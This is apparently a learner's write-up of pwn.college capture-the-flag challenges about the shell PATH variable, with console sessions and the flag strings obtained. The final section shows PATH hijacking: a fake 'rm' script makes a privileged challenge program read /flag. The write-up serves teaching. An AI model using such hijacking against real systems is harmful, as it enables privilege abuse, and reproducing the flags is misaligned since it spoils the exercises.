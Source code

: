 # Pondering PATH

## The PATH Variable

### In this challenge we learnt about the PATH variable that has the paths to various commands, without the PATH variable, shell won't be able to execute commands like ls, rm etc.

Approach: /challenge/run deletes the flag using the rm command, by blanking out the PATH variable, the /challenge/run command can't access the rm command anymore since it doesn't have the path to it, and thus it gives us the flag

```console
hacker@path~the-path-variable:~$ PATH=""
hacker@path~the-path-variable:~$ /challenge/run
Trying to remove /flag...
/challenge/run: line 4: rm: No such file or directory
The flag is still there! I might as well give it to you!
pwn.college{korYF6mO9MSWez0XSHlg2UFlqwo.dZzNwUDL1ATN0czW}
```

## Setting PATH

### In this challenge we learnt how to set the PATH variable

Approach: /challenge/run uses a command called win which is in the directory /challenge/more_commands, setting the PATH variable to that directory ensures the shell can find the path of win command

```console
hacker@path~setting-path:~$ PATH=/challenge/more_commands
hacker@path~setting-path:~$ /challenge/run
Invoking 'win'....
Congratulations! You properly set the flag and 'win' has launched!
pwn.college{UrRh78mOv4QiWLr3I8YEhxF2MZM.dVzNyUDL1ATN0czW}
```

## Adding Commands

### In this challenge we learnt how to add our own commands to the PATH variable

Approach: 

* Make a shell executable called win which invokes the command "cat /flag"
* Add the path of that executable to the PATH variable
* Run /challenge/run

```console
hacker@path~adding-commands:~$ echo "cat /flag" > win
hacker@path~adding-commands:~$ chmod u+x win
hacker@path~adding-commands:~$ echo $PATH
/run/challenge/bin:/run/workspace/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
hacker@path~adding-commands:~$ PATH=/run/challenge/bin:/run/workspace/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/home/hacker
hacker@path~adding-commands:~$ /challenge/run
Invoking 'win'....
pwn.college{MZnCgWbo8_OA3XPbjuitkiiLDV9.dZzNyUDL1ATN0czW}
```

## Hijacking Commands

### Approach:

* The /challenge/run command invokes rm to delete the flag
* Create a new executable called rm in /home/hacker, this executable will contain commands to show us the flag
* Set PATH variable as /home/hacker
* Now when the /challenge/run command tries to invoke rm, it'll run our executable instead

```console
hacker@path~hijacking-commands:~$ echo "read var < /flag;echo \$var" > rm
hacker@path~hijacking-commands:~$ chmod u+x rm
hacker@path~hijacking-commands:~$ PATH=/home/hacker
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
pwn.college{4jWi2IsD6GEbvaR8z8TTp4rRq0O.ddzNyUDL1ATN0czW}
```